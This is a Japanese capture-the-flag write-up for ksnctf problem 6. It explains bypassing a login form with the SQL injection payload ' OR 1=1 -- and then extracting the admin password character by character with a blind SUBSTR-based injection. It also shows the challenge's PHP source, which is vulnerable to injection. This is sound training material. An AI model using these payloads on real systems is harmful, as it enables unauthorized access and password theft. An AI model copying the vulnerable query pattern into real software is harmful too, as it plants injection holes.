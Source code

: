 ## 問題6 
### 参考サイト
- [問題](https://ksnctf.sweetduet.info/problem/6)
- [解説](https://linuxnosusume.blogspot.com/2017/12/ksnctf-6-login.html)
- [urllib3](https://note.com/tomtom_0301/n/n980969ea4756)
- [SQL注入](https://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/502.html)

### 解法

1. 以下をID欄に入力  
`' OR 1=1 --`  
これには以下の意味があり、この文字列をパラメータとして与えられた場合は、ユーザIDが常に返ってくる  
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
OR 1=1  ： uidの値に関係なく、検索条件を、真とさせる
--      ： それ以降の内容をコメントとして無視させる
```

結果として以下のページが返ってくる
```
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $db->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_SILENT);
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```

上を開いてみた  
![ヒント結果](../images/p6_hint.png)


2. 以下をID欄に入力  
`admin'  AND SUBSTR((SELECT pass FROM user WHERE id='admin'),1,1) = 'F'--`  
adminのpassの1文字目がFと一致するため、Congraturation!が表示される
```
'       ： ひとつ前の「'」と対となり、文字列定数を終わらせる  
SUBSTR(文字列,開始の位置[,文字数])  ： 文字を切り出す
--      ： それ以降の内容をコメントとして無視させる
```


3. この[コード](../codes/p6_soltion.py)を実行  
### メモ
**ブラインドSQLインジェクション**  
挿入したSQLに対する応答ページの違いから、データベース管理システムに関する情報（実行ユーザーやテーブル名など）を盗み出す
